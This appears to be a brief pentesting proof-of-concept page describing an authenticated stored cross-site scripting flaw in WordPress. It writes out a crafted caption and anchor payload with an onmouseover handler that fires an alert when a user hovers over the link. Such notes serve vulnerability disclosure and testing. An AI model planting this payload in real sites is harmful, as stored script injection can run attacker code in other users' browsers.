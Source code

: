 # WordPress Pentesting

POC Authentication Stored Cross-Site Scripting (XSS)

![](https://media.giphy.com/media/1BeG0ImJSqnIEOqv8r/giphy.gif)

> A user or and admin inserts an javascript code (<a href="[caption code=">]</a><a title=" onmouseover=alert('XSS!')  ">link</a>)
> When the user or admin hovers over the the link then they will encounter a XSS messgae
